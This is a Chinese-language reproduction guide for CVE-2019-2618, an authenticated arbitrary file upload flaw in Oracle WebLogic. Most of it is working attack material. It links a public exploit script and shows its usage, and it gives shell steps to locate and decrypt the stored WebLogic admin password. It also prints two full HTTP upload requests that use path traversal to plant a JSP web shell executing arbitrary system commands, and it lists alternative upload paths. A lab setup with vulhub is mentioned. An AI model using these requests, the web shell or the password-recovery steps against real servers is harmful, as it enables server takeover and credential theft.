





# （CVE-2019-2618）WebLogic任意文件上传漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3229](https://www.zhihuifly.com/t/topic/3229)

# （CVE-2019-2618）WebLogic任意文件上传漏洞

## 一、漏洞简介

Weblogic Upload Vuln(Need username password)-CVE-2019-2618

## 二、漏洞影响

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.3.0

## 三、复现过程

```
https://github.com/ianxtianxt/cve-2019-2618 
```

### python使用

```
python CVE-2019-2618.py url username password 
```





### 解密weblogic密码

```
root@f0cb7e674d7e:~/Oracle# cat /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties |grep pass
password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=
root@f0cb7e674d7e:~/Oracle# find / -name "*SerializedSystemIni.dat*"
/root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
root@f0cb7e674d7e:~/Oracle# `weblogic 账号密码： weblogic/Oracle@123` 
```



### 使用docker搭建环境

参考vulnhub

```
root@kali:~/vulhub/weblogic/CVE-2017-10271# ls
1.png  docker-compose.yml  README.md  set_mirror.sh
root@kali:~/vulhub/weblogic/CVE-2017-10271# docker-compose up -d 
```



```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 10.10.20.166:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
username: weblogic
wl_request_type: app_upload
cache-control: no-cache
wl_upload_application_name: /../tmp/_WL_internal/bea_wls_internal/9j4dqk/war
serverName: Jas502n
password: Oracle@123
content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
archive: true
server_version: 10.3.6.0
wl_upload_delta: true
Content-Length: 1081

------WebKitFormBoundary7MA4YWxkTrZu0gW

Content-Disposition: form-data; name=“shell.jsp”; filename=“shell.jsp”

Content-Type: false

<%@ page import=“java.util.*,[java.io](http://java.io).*”%>

<%

%>

<HTML><BODY>

Commands with JSP

<FORM METHOD=“GET” NAME=“myform” ACTION="">

<INPUT TYPE=“text” NAME=“cmd”>

<INPUT TYPE=“submit” VALUE=“Send”>

</FORM>

<pre>

<%

if (request.getParameter(“cmd”) != null) {

out.println("Command: " + request.getParameter(“cmd”) + “<br>”);

Process p;

if ( System.getProperty(“os.name”).toLowerCase().indexOf(“windows”) != -1){

p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter(“cmd”));

}

else{

p = Runtime.getRuntime().exec(request.getParameter(“cmd”));

}

OutputStream os = p.getOutputStream();

InputStream in = p.getInputStream();

DataInputStream dis = new DataInputStream(in);

String disr = dis.readLine();

while ( disr != null ) {

out.println(disr);

disr = dis.readLine();

}

}

%>

</pre>

</BODY></HTML> `------WebKitFormBoundary7MA4YWxkTrZu0gW–` 
```

### 也可以换个目录上传

```
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
bea_wls_internal 
bea_wls_deployment_internal 在同目录
这是漏洞war位置 
```



```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 10.10.20.166:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
username: weblogic
wl_request_type: app_upload
cache-control: no-cache
wl_upload_application_name: /../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
serverName: Jas502n
password: Oracle@123
content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
archive: true
server_version: 10.3.6.0
wl_upload_delta: true
Content-Length: 1084

------WebKitFormBoundary7MA4YWxkTrZu0gW

Content-Disposition: form-data; name=“shell.jsp”; filename=“shell111.jsp”

Content-Type: false

<%@ page import=“java.util.*,[java.io](http://java.io).*”%>

<%

%>

<HTML><BODY>

Commands with JSP

<FORM METHOD=“GET” NAME=“myform” ACTION="">

<INPUT TYPE=“text” NAME=“cmd”>

<INPUT TYPE=“submit” VALUE=“Send”>

</FORM>

<pre>

<%

if (request.getParameter(“cmd”) != null) {

out.println("Command: " + request.getParameter(“cmd”) + “<br>”);

Process p;

if ( System.getProperty(“os.name”).toLowerCase().indexOf(“windows”) != -1){

p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter(“cmd”));

}

else{

p = Runtime.getRuntime().exec(request.getParameter(“cmd”));

}

OutputStream os = p.getOutputStream();

InputStream in = p.getInputStream();

DataInputStream dis = new DataInputStream(in);

String disr = dis.readLine();

while ( disr != null ) {

out.println(disr);

disr = dis.readLine();

}

}

%>

</pre>

</BODY></HTML> `------WebKitFormBoundary7MA4YWxkTrZu0gW–` 
```